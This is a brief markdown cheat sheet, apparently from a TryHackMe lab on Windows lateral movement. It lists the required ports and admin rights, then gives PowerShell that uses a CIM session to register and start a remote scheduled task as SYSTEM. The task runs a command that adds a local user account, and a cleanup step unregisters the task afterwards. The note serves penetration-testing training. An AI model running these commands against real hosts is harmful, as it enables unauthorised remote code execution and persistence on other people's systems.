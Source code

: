 #### Requirements
- **Ports:** 
	- 135/TCP, 49152-65535/TCP (DCERPC)
	- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	
- **Required Group Memberships:** Administrators

#### Create and Execute Scheduled Tasks by using some cmdlets available in Windows default installation
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

#### Delete the Scheduled Tasks after it has been used
```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```